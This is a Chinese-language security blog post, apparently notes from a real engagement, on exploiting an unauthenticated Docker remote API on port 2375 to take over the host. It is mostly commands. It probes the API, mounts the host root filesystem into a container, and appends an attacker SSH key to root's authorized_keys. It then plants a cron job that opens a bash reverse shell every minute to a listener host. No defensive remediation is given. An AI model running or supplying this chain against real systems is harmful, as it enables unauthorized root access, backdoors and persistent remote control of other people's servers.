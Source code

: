```yaml
---
title: docker未授权致RCE
date: 2025-02-04
tags:
  - sec
draft: false
images: ['/static/images/blog/2025/docker-unauthorized/Pasted%20image%2020250409140309.png']
authors: ['default']
---
```


- 参考谢公子：[Site Unreachable](https://cloud.tencent.com/developer/article/2321247)
- 在实战中遇到了记一下，最终可以直接 ssh 登录 + 反弹 shell 到内网其他主机

## 测试过程

### docker 未授权

nmap 扫描发现 2375 端口开放 docker 服务，测试以下 URL 发现 docker 未授权：

```
http://x.x.x.x:2375/version
http://x.x.x.x:2375/images
http://x.x.x.x:2375/info
```

### docker 远程命令

可以在本地使用命令远程管理 docker：

```bash
docker -H tcp://<IP>:2375 images -a
docker -H tcp://<IP>:2375 ps
docker -H tcp://<IP>:2375 exec -it e7d97caf249d /bin/bash
```

### 获取宿主机权限

容器里面操作没啥意义，关键是要获取宿主机（目标服务器）的权限。

启动一个未开启的容器，然后将**宿主机的磁盘挂载到容器中**：

```bash
docker -H tcp://<IP>:2375 run -it -v /:/opt b76f96a98a27 /bin/bash
```

- `-v /:/opt`：-v 选项的作用是选择挂载卷，此处将宿主机的整个文件系统 `/` 挂载到容器内的 `/opt` 目录下。

**因此，我们可以通过容器内 `/opt` 目录，管理宿主机文件系统。**

### 写入SSH公钥

管理文件系统并不算真正获取权限，但是也快了。

先在本地生成一对 SSH 的公私钥对，然后直接 echo 把 SSH 公钥写入服务器的公钥文件：

```bash
# 本地生成公私钥对
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
# 默认保存在 ~/.ssh , 私钥是 id_rsa , 公钥是 id_rsa.pub

# 修改服务器文件：进入docker容器挂的宿主机文件系统
cd /opt/root/.ssh/
# echo 写入公钥（id_rsa.pub的内容）
echo "ssh-rsa jdiofjsdoijfosjdsjfosdjfo..." >> authorized_keys
```

- 没有.ssh目录或者 authorized_keys 文件就自己创建一个

服务器写入公钥之后，本地可以直接通过**指定私钥文件**来登录服务器：

```bash
ssh -i ~/.ssh/id_rsa root@<IP>
```

### 持久化

最后做一步权限维持，给宿主机设置**定时任务**。

将反弹 shell 的命令写入 `/var/spool/cron/root` 文件中：

- 也可能是 `/var/spool/cron/crontab/root`

```bash
cd /opt/var/spool/cron
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/<IPonListening>/4444 0>&1" >> root
```

- 含义是每隔一分钟，反弹一次 shell

假如服务器默认 shell 是 zsh，需要把反弹 shell 命令改成：

```bash
echo "*/1  *  *  *  *   bash -c 'bash -i >& /dev/tcp/<IPonListening>/10341 0>&1'" >> root
```

注意，目标服务器可能出不了网，只能反弹 shell 到内网，需要有一台内网机器，可以之后再由内网机器配置转发到外网。

![](/static/images/blog/2025/docker-unauthorized/Pasted%20image%2020250409140309.png)
